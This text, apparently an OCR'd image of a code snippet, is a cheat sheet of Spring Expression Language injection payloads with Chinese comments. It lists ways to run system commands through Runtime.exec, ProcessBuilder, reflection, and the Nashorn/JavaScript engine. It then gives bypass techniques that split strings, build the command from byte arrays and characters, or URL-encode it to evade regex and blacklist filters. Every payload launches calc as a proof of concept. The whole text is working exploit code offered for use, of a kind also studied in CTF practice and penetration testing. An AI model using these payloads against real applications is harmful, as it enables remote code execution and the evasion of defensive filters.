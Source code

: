 ```

// Runtime
T(java.lang.Runtime).getRuntime().exec("calc")
T(Runtime).getRuntime().exec("calc")

// ProcessBuilder
new java.lang.ProcessBuilder({'calc'}).start()
new ProcessBuilder({'calc'}).start()

******************************************************************************
// Bypass技巧

// 反射调用
T(String).getClass().forName("java.lang.Runtime").getRuntime().exec("calc")
#{T(java.lang.String).forName('java.lang.Runtime').getRuntime().exec('calc')}

// 同上，需要有上下文环境
#this.getClass().forName("java.lang.Runtime").getRuntime().exec("calc")

// 反射调用+字符串拼接，绕过如javacon题目中的正则过滤
T(String).getClass().forName("java.l"+"ang.Ru"+"ntime").getMethod("ex"+"ec",T(String[])).invoke(T(String).getClass().forName("java.l"+"ang.Ru"+"ntime").getMethod("getRu"+"ntime").invoke(T(String).getClass().forName("java.l"+"ang.Ru"+"ntime")),new String[]{"cmd","/C","calc"})

// 同上，需要有上下文环境
#this.getClass().forName("java.l"+"ang.Ru"+"ntime").getMethod("ex"+"ec",T(String[])).invoke(T(String).getClass().forName("java.l"+"ang.Ru"+"ntime").getMethod("getRu"+"ntime").invoke(T(String).getClass().forName("java.l"+"ang.Ru"+"ntime")),new String[]{"cmd","/C","calc"})

// 当执行的系统命令被过滤或者被URL编码掉时，可以通过String类动态生成字符，Part1
// byte数组内容的生成后面有脚本
new java.lang.ProcessBuilder(new java.lang.String(new byte[]{99,97,108,99})).start()

// 当执行的系统命令被过滤或者被URL编码掉时，可以通过String类动态生成字符，Part2
// byte数组内容的生成后面有脚本
T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(99).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(108)).concat(T(java.lang.Character).toString(99)))

// JavaScript引擎通用PoC
T(javax.script.ScriptEngineManager).newInstance().getEngineByName("nashorn").eval("s=[3];s[0]='cmd';s[1]='/C';s[2]='calc';java.la"+"ng.Run"+"time.getRu"+"ntime().ex"+"ec(s);")

T(org.springframework.util.StreamUtils).copy(T(javax.script.ScriptEngineManager).newInstance().getEngineByName("JavaScript").eval("xxx"),)

// JavaScript引擎+反射调用
T(org.springframework.util.StreamUtils).copy(T(javax.script.ScriptEngineManager).newInstance().getEngineByName("JavaScript").eval(T(String).getClass().forName("java.l"+"ang.Ru"+"ntime").getMethod("ex"+"ec",T(String[])).invoke(T(String).getClass().forName("java.l"+"ang.Ru"+"ntime").getMethod("getRu"+"ntime").invoke(T(String).getClass().forName("java.l"+"ang.Ru"+"ntime")),new String[]{"cmd","/C","calc"})),)

// JavaScript引擎+URL编码
// 其中URL编码内容为：
// 不加最后的getInputStream()也行，因为弹计算器不需要回显
T(org.springframework.util.StreamUtils).copy(T(javax.script.ScriptEngineManager).newInstance().getEngineByName("JavaScript").eval(T(java.net.URLDecoder).decode("%6a%61%76%61%2e%6c%61%6e%67%2e%52%75%6e%74%69%6d%65%2e%67%65%74%52%75%6e%74%69%6d%65%28%29%2e%65%78%65%63%28%22%63%61%6c%63%22%29%2e%67%65%74%49%6e%70%75%74%53%74%72%65%61%6d%28%29")),)

// 黑名单过滤".getClass("，可利用数组的方式绕过，还未测试成功
```